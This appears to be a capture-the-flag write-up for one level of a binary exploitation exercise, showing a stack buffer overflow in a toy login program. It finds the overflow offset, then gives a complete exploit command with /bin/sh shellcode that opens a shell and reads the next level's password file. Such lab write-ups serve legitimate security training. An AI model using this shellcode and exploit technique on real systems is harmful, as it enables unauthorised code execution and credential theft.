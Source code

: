# Level 1

Before us we have a binary which represents an admin login prompt.
First, it asks us for the username which it `fgets` into a global variable called `a_user_name`, and if it matches `dat_wil`, we can input a password that is then checked against "admin". This however is just a silly attempt at trolling from wil.
The password will then be read into a 64 byte buffer with `fgets`, but here fgets will read up to 256 bytes, so we can overflow.

Let's use our trusty [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
```shell
(gdb) r < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
Starting program: /home/users/level01/level01 < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
We now know that we can override EIP 80 characters in.

Now that we know the offset of the overflow we'll need the address of the password buffer in memory. To accomplish this we can check the return value of the second `fgets` within `ltrace`. 
Note: Some form of address randomization is employed here, so the address is subject to changes
```shell
level01@OverRide:~$ ltrace -e 'fgets' ./level01 < <(echo 'dat_wil'; sleep .2; echo 'deeznuts') 1>/dev/null
fgets("dat_wil\n", 256, 0xf7fcfac0)                                                                = 0x0804a040
fgets("deeznuts\n", 100, 0xf7fcfac0)                                                               = 0xffffd6cc
+++ exited (status 1) +++
```

Let's now inject the buffer address after our 28 bytes [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) and 52 bytes of padding.
```shell
level01@OverRide:~$ (echo 'dat_wil'; sleep .5; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + "\xcc\xd6\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
[censored]
```
Bingo!

